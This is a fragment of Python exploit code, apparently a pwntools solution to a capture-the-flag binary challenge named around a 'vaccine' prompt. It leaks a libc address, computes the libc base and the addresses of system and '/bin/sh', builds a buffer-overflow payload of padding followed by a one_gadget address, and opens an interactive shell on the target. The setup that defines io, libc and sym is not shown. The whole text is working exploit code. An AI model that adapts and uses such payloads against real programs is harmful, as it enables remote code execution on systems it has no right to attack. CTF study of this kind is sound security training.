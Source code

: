 ```python


io.recvline()
io.recvline()

libc_base = u64(io.recv(6) + b"\x00" * 2) - libc.symbols[sym]
system = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh\x00'))[0]

one_gadget = [0xe3afe, 0xe3b01, 0xe3b04]

og = libc_base + one_gadget[1]

print(hex(libc_base))

payload = b"\x00" * 0x100 + b"B" * 8
# payload += p64(pop_rdi_ret) + p64(binsh) + p64(system)
payload += p64(og)

io.sendlineafter("vaccine: ", payload)

io.interactive()
```